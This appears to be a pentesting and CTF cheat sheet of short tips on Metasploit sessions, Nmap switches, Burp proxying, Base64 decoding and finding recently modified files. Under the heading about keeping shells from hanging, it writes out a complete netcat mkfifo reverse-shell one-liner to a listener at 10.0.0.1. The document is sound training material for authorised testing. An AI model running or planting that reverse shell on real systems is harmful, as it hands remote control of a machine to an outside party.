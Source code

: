 # General tips

## Disposable email

If you are signing up for a lot of accounts you can use a disposable email. You just enter the email account you want for that second, and then you can view it. But remember, so can everyone else.  
[https://www.mailinator.com](https://www.mailinator.com)

## Base64 encode/decode

```python
import base64

encoded = base64.b64encode("String to encode")
print encoded

decoded = base64.b64decode("aGVqc2Fu")
print decoded
```

## Quick Base64 Decoder

```
echo aGVsbG8gd2hpdGUgaGF0Cg== | base64 -d
```

## Metasploit Slow Search Fix

```
db_rebuild_cache
```

## Default passwords

[http://www.defaultpassword.com/](http://www.defaultpassword.com/)

## Getting GUI on machine that does not have RDP or VNC

You can forward X over SSH.  
[http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html](http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html)

## Metasploit shell upgrade

In metasploit framework, if we have a shell \( you should try this also, when you are trying to interact with a shell and it dies \(happened in a VM\), we can upgrade it to meterpreter by using sessions -u

```
sessions -h
Usage: sessions [options]

Active session manipulation and interaction.

OPTIONS:

-u <opt>  Upgrade a shell to a meterpreter session on many platforms
```

## **Using a list in a metasploit module that does not allow it**

```
In the RHOSTS field enter:

file://PATHTOIPADDRESSES
```

## **Change Nmap modes while scanning**

```
v   --increase verbosity
p   --turn on packets
```

## **Nmap host enumeration**

```
-sn --determine alive hosts
```

## Issues with Exploits \(try viewing in Burp\)

```
Options->Add(proxy Listeners)->
Bind to port (i.e.local port to bind)(e.g.8500)->
Request Handling->
Redirect to host(i.e.IP of target)(e.g.8500)->
Redirect to port(i.e.Port of target)(e.g.8500)

then browser
localhost:8500
or run the exploit again
```

## Quick determination if executables exist

```
which nc
```

## Makes Sure shells don't hang \(send to background\)

```
If adding a reverse shell to web console for example, add a "&" to the end of reverse shell, to send to background
and in case any process during interaction hangs
for example:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f &
```

## Modification of Files \(CTF specific / IR trick\)

look for other files modified after initial flag file or other indicator

```
find / -type f -newermt 2017-08-20 ! -newermt 2017-08-24
```

above example the user flag was uploaded aug 22 2017

